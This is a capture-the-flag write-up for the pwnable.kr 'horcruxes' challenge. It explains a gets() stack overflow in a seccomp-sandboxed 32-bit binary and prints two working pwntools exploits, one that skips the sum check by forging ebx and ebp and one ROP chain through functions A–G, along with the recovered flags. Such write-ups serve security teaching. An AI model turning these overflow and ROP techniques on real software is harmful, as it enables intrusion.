

Challenge Description
We get the following hint:
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and ROP it!
author: jiwon choi
ssh horcruxes@pwnable.kr -p2222 (pw:guest)Fun fact: even after finishing this challenge, I still can't pronounce "horcruxes" correctly.
Let's connect:
ssh horcruxes@pwnable.kr -p2222In the home directory we see:
horcruxes readmehorcruxes@ubuntu:~$ cat readme
connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn privilege.
rop it to read the flag.Running checksec:
checksec --file=/home/horcruxes/horcruxes
[*] '/home/horcruxes/horcruxes'
Arch: i386-32-little
RELRO: Full RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8040000)
Stripped: NoNo PIE and no stack canary, which is good for ROP.
Reverse Engineering
The binary doesn't come with source code, so I decompiled it. The main function sets up a seccomp sandbox and calls ropme():
int main(int argc, char *argv[]) {
setvbuf(stdout, NULL, _IOLBF, 0);
setvbuf(stdin, NULL, _IOLBF, 0);
alarm(60);
hint();
init_ABCDEFG();
// seccomp setup only allow: open, read, write, mprotect, exit_group, readlink
seccomp_ctx = seccomp_init(SCMP_ACT_KILL);
seccomp_rule_add(seccomp_ctx, SCMP_ACT_ALLOW, 0x5, 0); // open
seccomp_rule_add(seccomp_ctx, SCMP_ACT_ALLOW, 0x3, 0); // read
seccomp_rule_add(seccomp_ctx, SCMP_ACT_ALLOW, 0x4, 0); // write
seccomp_rule_add(seccomp_ctx, SCMP_ACT_ALLOW, 0xfc, 0); // exit_group
seccomp_load(seccomp_ctx);
ropme();
return 0;
}Note that the seccomp filter means execve is blocked, so we can't just spawn a shell. We can only use open/read/write.
The ropme() function is vulnerable:
void ropme(void) {
char buf[100];
int input_char;
int fd;
printf("Select Menu:");
scanf("%d", &input_char);
getchar();
if (input_char == a) { A(); }
else if (input_char == b) { B(); }
else if (input_char == c) { C(); }
else if (input_char == d) { D(); }
else if (input_char == e) { E(); }
else if (input_char == f) { F(); }
else if (input_char == g) { G(); }
else {
printf("How many EXP did you earned? : ");
gets(buf);
if (atoi(buf) == sum) {
fd = open("/home/horcruxes_pwn/flag", 0);
read(fd, buf, 100);
puts(buf);
close(fd);
exit(0);
}
puts("You'd better get more experience to kill Voldemort");
}
return;
}Note:
- Overflow:
gets(buf)on a 100-byte buffer with no bounds checking. There is no stack canary, so we can overflow the return address. - Flag-reading code: If
atoi(buf) == sum, the program opens and reads/home/horcruxes_pwn/flag. Thesumvariable is the sum of all seven random values assigned to the horcrux functions A through G.
How the Random Values Work
The init_ABCDEFG() function generates seven random values at startup using /dev/urandom as a seed:
void init_ABCDEFG() {
int fd;
unsigned int seed;
fd = open("/dev/urandom", 0);
read(fd, &seed, 4);
close(fd);
srand(seed);
// generate random values for each horcrux
value_A = rand() * 0xdeadbeef;
// ... same for B through G
sum = value_A + value_B + value_C + value_D + value_E + value_F + value_G;
}Each horcrux function (A through G) prints its value and returns:
void A() {
printf("You found \"Tom Riddle's Diary\" (EXP +%d)\n", value_A);
return;
}The values are randomized on each run and are not predictable in advance.
Finding the Overflow Offset
I sent a two concatenated cyclic patterns to the gets() call (one cyclic wasn't long enough to reach the return address):
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaaThe crash landed on:
Invalid address 0x67616161
EIP 0x67616161 ('aaag')aaag is in the second copy of the cyclic pattern, which gives an offset of 121 bytes to the return address.
Now I just need to find where to jump.
Solution 1: Skip the Check
The first approach is to skip the sum comparison and jump directly to the flag-reading code at 0x08041625:
0x08041621 <+278>: cmp eax, edx ; compare atoi(buf) with sum
0x08041623 <+280>: jne 0x804167c ; jump if not equal
0x08041625 <+282>: sub esp, 0x8 ; ← jump here to skip the check
0x08041628 <+285>: push 0x0
0x0804162a <+287>: lea eax, [ebx-0x1e1c] ; flag path
0x08041630 <+293>: push eax
0x08041631 <+294>: call 0x80410f0 <open@plt>
...Since PIE is disabled, the address of this code is fixed.
I tried jumping to 0x08041625 (right after the cmp) with 121 bytes of padding:
[121 bytes padding] [return address]It crashed because my cyclic pattern overwrote the flag path calculation. Looking at the registers, I noticed that ebx contained aabe, which pointed to the offset where ebx gets restored from the stack. Since ebx is used as the base register for position-independent references in the binary, including the flag path, it needs to be set to the correct value for the exploit to work.
To find the actual address of the flag string:
find 0x8040000, 0x8045000, "/home/horcruxes_pwn/flag"
> 0x8042174But the code computes the flag location relative to ebx:
0x0804162a <+287>: lea eax, [ebx - 0x1e1c] ; "/home/horcruxes_pwn/flag"So I need ebx = 0x8043f90, which gives 0x8043f90 - 0x1e1c = 0x8042174. Confirming in GDB:
pwndbg> x/s 0x8043f90-0x1e1c
0x8042174: "/home/horcruxes_pwn/flag"Now I sent this payload:
[113 bytes padding] [saved ebx (0x8043f90)] [4-bytes padding] [return address]After the file is opened, the code reads its contents into a buffer at [ebp-0x74]. I accidentally overwrote ebp with my padding too, so I need to point it somewhere writable and large enough for the buffer.
Can't use the stack because of ASLR, but vmmap shows a writable section at a fixed address:
0x8044000 0x8045000 rw-p 1000 3000 horcruxesSetting ebp to 0x8044200 puts the buffer (ebp-0x74 = 0x804418c) inside this region.
This is how the overflow would look like:
[112 bytes padding] [saved ebx (0x8043f90)] [saved ebp (0x8044200)] [return address]Note: in the final payload the padding is 112 (not 113). In my earlier attempts I was also overwriting the "menu choice" value that gets read before gets(). In the final exploit I just send the menu number separately, so I don't need that extra byte.
The final exploit is:
from pwn import *
payload = cyclic(112)
payload += p32(0x8043f90) # ebx → GOT base for flag path calculation
payload += p32(0x8044200) # ebp → writable memory for read buffer
payload += p32(0x08041625) # ret → skip the check, jump to open
r = remote('localhost', 9032)
r.recvuntil(b'Menu:')
r.sendline(b'5') # pick an invalid option to reach gets()
r.recvuntil(b'EXP')
r.sendline(payload)
r.interactive()Running it:
[+] Opening connection to localhost on port 9032: Done
[*] Switching to interactive mode
did you earned? : You'd better get more experience to kill Voldemort
The_M4gic_sp3l1_is_Avada_Ked4vraYippy :)
Solution 2: Call All Horcruxes and Calculate the Sum
I also wanted to solve it as "intended", by calling the "gadgets" A through G using ROP. I would collect their printed values, then jump back to ropme() and give the correct sum.
Each function is at a known address:
| Function | Address |
|---|---|
| A | 0x0804129d |
| B | 0x080412cf |
| C | 0x08041301 |
| D | 0x08041333 |
| E | 0x08041365 |
| F | 0x08041397 |
| G | 0x080413c9 |
Each function has a return statement, so I can build a ROP chain that calls all functions one by one.
This ROP chain calls all seven, then returns to ropme (0x0804150b) to give us another chance to input the sum:
from pwn import *
payload = cyclic(120)
payload += p32(0x0804129d) # A()
payload += p32(0x080412cf) # B()
payload += p32(0x08041301) # C()
payload += p32(0x08041333) # D()
payload += p32(0x08041365) # E()
payload += p32(0x08041397) # F()
payload += p32(0x080413c9) # G()
payload += p32(0x0804150b) # ropme() - back to the menu
r = remote('localhost', 9032)
r.recvuntil(b'Menu:')
r.sendline(b'5')
r.recvuntil(b'EXP')
r.sendline(payload)
r.interactive()All seven horcruxes print their values, then ropme() runs again. I select option 1 (which goes to the else branch), enter the sum and the program opens and prints the flag:
[+] Opening connection to localhost on port 9032: Done
[*] Switching to interactive mode
did you earned? : You'd better get more experience to kill Voldemort
You found "Tom Riddle's Diary" (EXP +243946139)
You found "Marvolo Gaunt's Ring" (EXP +180857841)
You found "Helga Hufflepuff's Cup" (EXP +-1573891803)
You found "Salazar Slytherin's Locket" (EXP +1804907948)
You found "Rowena Ravenclaw's Diadem" (EXP +911663942)
You found "Nagini the Snake" (EXP +1321144592)
You found "Harry Potter" (EXP +-1268347992)
Select Menu:$ 1
How many EXP did you earned? : $ 1620280667
The_M4gic_sp3l1_is_Avada_Ked4vraYippy 2 :)

Sources to learn ROP
- pwn college ROP Dojo: https://pwn.college/program-security/return-oriented-programming
- ROP Emporium: https://ropemporium.com/